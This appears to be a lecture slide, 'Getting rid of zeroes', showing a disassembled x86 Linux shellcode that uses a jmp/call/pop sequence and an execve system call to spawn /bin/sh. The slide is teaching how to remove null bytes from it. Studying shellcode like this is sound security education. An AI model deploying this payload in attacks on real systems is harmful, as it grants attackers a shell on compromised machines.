

# Getting rid of zeroes
08048394 <main>:
 8048394:       55                      push   %ebp
 8048395:       89 e5                   mov    %esp,%ebp
 8048397:       83 ec 04                sub    $0x4,%esp
 804839a:       eb 1c                   jmp    80483b8 <mcall>
 804839c:       5b                      pop    %ebx
 804839d:       b8 00 00 00 00          mov    $0x0,%eax
 80483a2:       88 43 07                mov    %al,0x7(%ebx)
 80483a5:       89 5b 08                mov    %ebx,0x8(%ebx)
 80483a8:       89 43 0c                mov    %eax,0xc(%ebx)
 80483ab:       b8 0b 00 00 00          mov    $0xb,%eax
 80483b0:       8d 4b 08                lea    0x8(%ebx),%ecx
 80483b3:       8d 53 0c                lea    0xc(%ebx),%edx
 80483b6:       cd 80                   int    $0x80
 80483b8:       e8 df ff ff ff          call   804839c <ajmp>
 80483bd:       2f                      das
 80483be:       62 69 6e                bound  %ebp,0x6e(%ecx)
 80483c1:       2f                      das
 80483c2:       73 68                   jae    804842c